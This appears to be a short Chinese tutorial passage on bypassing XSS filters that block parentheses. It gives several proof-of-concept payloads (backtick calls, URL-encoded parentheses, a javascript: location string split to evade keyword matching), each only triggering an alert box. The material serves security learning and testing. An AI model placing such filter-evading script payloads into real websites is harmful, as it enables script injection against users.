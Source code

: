 ### 前言
- - -
这篇文章，主要是补充一些其他的。


![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g2bqudnbs2j30h707b0up.jpg)

### 圆括号
- - -
假设过滤了`()`，怎么进行弹框呢?如果仅仅只考虑这点，可执行payload还满多的。

最简单的，用反引号代替圆括号。

```html
<img src=x onerror=alert`1`>
```

引入伪协议，以及location，然后进行编码拆分。

`<img src=1 onerror=alert%28%29>`

`<img src=1 onerror=location="javascript:"+"aler"+"t%281%29">`

这里引用[P牛](https://www.leavesongs.com/PENETRATION/use-location-xss-bypass.html)

